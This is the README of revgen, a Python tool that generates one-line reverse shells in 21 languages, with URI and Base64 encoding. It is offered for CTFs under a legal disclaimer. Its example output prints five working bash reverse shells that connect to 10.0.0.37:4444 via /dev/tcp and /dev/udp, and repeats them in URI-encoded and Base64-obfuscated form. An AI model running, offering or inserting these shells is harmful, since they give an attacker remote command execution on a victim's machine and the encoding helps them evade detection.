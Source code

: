 # The One-Liner Reverse Shell Generator 

> [!WARNING]\
LEGAL DISCLAIMER:\
This tool is STRICTLY for EDUCATIONAL PURPOSES ONLY!\
Usage of this tool for attacking targets without prior mutual consent is ILLEGAL.\
It is the user's responsibility to obey all laws that apply whilst using this tool.\
The developer of this tool assumes no liability and is not responsible for any misuse  or damage caused by this program.

## What is revgen?
Revgen is a simple script written in Python, used to generate one-line reverse shells. Perfect for use in CTFs.

## How does it work?
The script contains a dictionary data structure containing multiple different programming, scripting and executable languages as **keys** with corresponding reverse shells as **values**.

The script also allows for encoding the reverse shell scripts. The options are **URI Encoding** and **Base64** encoding.

## Features
**revgen** includes reverse shells for **21** different programming, scripting, and executable languages.

#### Reverse Shell Formats and Number of Reverse Shells:
- **bash** = 5
- **nc** = 4
- **ncat** = 2
- **curl** = 1
- **rustcat** = 1
- **Perl** = 2
- **PHP** = 7
- **Python** = 5
- **Ruby** = 2
- **socat** = 2
- **sqlite3** = 1
- **Node.JS** = 1
- **groovy** = 1
- **telnet** = 1
- **zsh** = 2
- **lua** = 2
- **golang** = 1
- **vlang** = 1
- **awk** = 1
- **crystal** = 1
- **powershell** = 4

## Requirements
The only requirement for this tool to run is that Python3 is installed.\
If it is not, you can install it using your favourite package manager.

### On Ubuntu/Debian (apt):
1. Update package list: `sudo apt update`
2. Install Python3: `sudo apt install python3`
3. Verify Installation: `python3 --version`

### On CentOS/RHEL (yum):
1. Enable EPEL Repository: `sudo yum install epel-release`
2. Install Python3: `sudo yum install python3`
3. Verify Installation: `python3 --version`

### On Fedora (dnf):
1. Install Python3: `sudo dnf install python3`
2. Verify Installation: `python3 --version`

### On Arch Linux (pacman):
1. Install Python3: `sudo pacman -S python`
2. Verify Installation: `python3 --version`

## Installation
1. Clone the repository to your machine:\
   `git clone https://github.com/acfirthh/revgen.git`
   
2. Change directory into the cloned repo and make the **installer.sh** script executable:\
   `cd revgen; chmod +x installer.sh`

3. Run the **installer.sh** script:\
   `./installer.sh`\
   If the script gets a **permission denied** error, then it should be run as root or using sudo:\
   `sudo ./installer.sh`

5. If the **installer.sh** script runs successfully, then the **revgen** script should be callable through the command line.

> If you attempt to call the script by running the command `revgen` and it fails, then you should make sure that the directory `/usr/local/bin` is in your **PATH environment variable**.

## Usage
### Basic Usage:
Generate reverse shells for a specified IP address, port and format:\
`revgen -l <IP_ADDRESS> -p <PORT> -f <REVERSE_SHELL_FORMAT>`

Example:\
`revgen -l 10.0.0.37 -p 4444 -f bash`

### Advanced Usage:
Generate reverse shells for a specified IP address, port and format, with encoding:\
`revgen -l <IP_ADDRESS> -p <PORT> -f <REVERSE_SHELL_FORMAT> -e <ENCODING>`

#### URI Encoded Payload:
Example:\
`revgen -l 10.0.0.37 -p 4444 -f bash -e U`

#### Base64 Encoded Payload:
Example:\
`revgen -l 10.0.0.37 -p 4444 -f bash -e B`

##### Expected Normal Output:
```
$ revgen -l 10.0.0.37 -p 4444 -f bash

Bash -i
-------------------------
bash -i >& /dev/tcp/10.0.0.37/4444 0>&1

Bash 196
-------------------------
0<&196;exec 196<>/dev/tcp/10.0.0.37/4444; bash <&196 >&196 2>&196

Bash read line
-------------------------
exec 5<>/dev/tcp/10.0.0.37/4444;cat <&5 | while read line; do $line 2>&5 >&5; done

Bash 5
-------------------------
bash -i 5<> /dev/tcp/10.0.0.37/4444 0<&5 1>&5 2>&5

Bash UDP
-------------------------
bash -i >& /dev/udp/10.0.0.37/4444 0>&1
```

##### With URI Encoding:
```
$ revgen -l 10.0.0.37 -p 4444 -f bash -e U

Bash -i
-------------------------
bash%20-i%20%3E%26%20/dev/tcp/10.0.0.37/4444%200%3E%261

Bash 196
-------------------------
0%3C%26196%3Bexec%20196%3C%3E/dev/tcp/10.0.0.37/4444%3B%20bash%20%3C%26196%20%3E%26196%202%3E%26196

Bash read line
-------------------------
exec%205%3C%3E/dev/tcp/10.0.0.37/4444%3Bcat%20%3C%265%20%7C%20while%20read%20line%3B%20do%20%24line%202%3E%265%20%3E%265%3B%20done

Bash 5
-------------------------
bash%20-i%205%3C%3E%20/dev/tcp/10.0.0.37/4444%200%3C%265%201%3E%265%202%3E%265

Bash UDP
-------------------------
bash%20-i%20%3E%26%20/dev/udp/10.0.0.37/4444%200%3E%261
```

##### With Base64 Encoding:
```
$ revgen -l 10.0.0.37 -p 4444 -f bash -e B

Bash -i
-------------------------
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMzcvNDQ0NCAwPiYx

Bash 196
-------------------------
MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4wLjAuMzcvNDQ0NDsgYmFzaCA8JjE5NiA+JjE5NiAyPiYxOTY=

Bash read line
-------------------------
ZXhlYyA1PD4vZGV2L3RjcC8xMC4wLjAuMzcvNDQ0NDtjYXQgPCY1IHwgd2hpbGUgcmVhZCBsaW5lOyBkbyAkbGluZSAyPiY1ID4mNTsgZG9uZQ==

Bash 5
-------------------------
YmFzaCAtaSA1PD4gL2Rldi90Y3AvMTAuMC4wLjM3LzQ0NDQgMDwmNSAxPiY1IDI+JjU=

Bash UDP
-------------------------
YmFzaCAtaSA+JiAvZGV2L3VkcC8xMC4wLjAuMzcvNDQ0NCAwPiYx
```
